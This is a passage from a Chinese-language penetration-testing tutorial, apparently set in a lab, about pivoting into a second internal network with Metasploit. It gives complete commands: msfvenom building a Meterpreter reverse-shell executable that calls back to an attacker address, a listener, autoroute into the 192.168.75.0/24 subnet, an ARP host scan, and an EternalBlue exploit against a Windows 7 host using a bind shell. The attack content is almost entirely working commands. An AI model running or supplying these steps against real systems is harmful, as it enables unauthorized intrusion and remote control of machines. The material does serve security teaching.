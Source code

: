 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0RAYdSW1cNB5OCuQGcCxFKmpmfUtW3mVpxhibZuibVyjZNHGPvnJUcY7Q/640?wx_fmt=png)通与不通就缺了一个 socks 代理，我太爱 proxychains 了

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0xK0icj9UuURhQGotL3iaVriceBqjjVURIP0N8Q8EKJLrCRfYY5VrlIRsQ/640?wx_fmt=png)  

**三、MSF 穿越多级网络**
================

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS03ICJyf8UvUDKJpAGLib0APYOGJ3ZTAZgYHl5Mj1yMFRUjFMBnJg6Atw/640?wx_fmt=png)

  
①生成 payload

```
msfvenom -p windows/meterpreter/reverse\_tcp lhost=192.168.1.5 lport=1122 -f exe >test.exe
```

②建立监听，返回会话

```
use exploit/multi/handler
set payload windows/meterpreter/reverse\_tcp
set lhost 192.168.1.5
set lport 1122
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS01cYuIFAjdLVj9M8zibw0m6vz55fTiaWxlO1kfwx4D310EoAAia2xGBTWg/640?wx_fmt=png)  

③发现存在 75 网段，对该网段进行纵向渗透。添加 192.168.75.x 段网段静态路由

```
run autoroute -s 192.168.75.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0hFdQlWgCoysNldQY2Fibf4YTLMDJuts0G1Y4iatplQLMnQgNiciajRfCoA/640?wx_fmt=png)  

④对 192.168.75.x 网段进行主机存活扫描，此时在 MSF 各个模块已经可以访问 75 网段

```
run post/windows/gather/arp\_scanner RHOSTS=192.168.75.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0bMz1UJ7jmtBpjDT5k1dZdtHLBE2YnXibpCtc2X5gqh15KrY180XhYiaA/640?wx_fmt=jpeg)  

⑤挂起当前会话，对目标 win7(192.168.75.131) 进行攻击

```
use exploit/windows/smb/ms17\_010\_eternalblue
set rhost 192.168.75.131
#因为直连没有返回的流量所以不能用默认的reverse payload。
#直连是在目标上面开一个端口然后本地去连接
set payload windows/x64/meterpreter/bind\_tcp 
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS03ugmEKbPSpzEMOOzGzVXMlicUgzXIjJibEH67hiaCPEHdbPSibpmnkuoFA/640?wx_fmt=png)
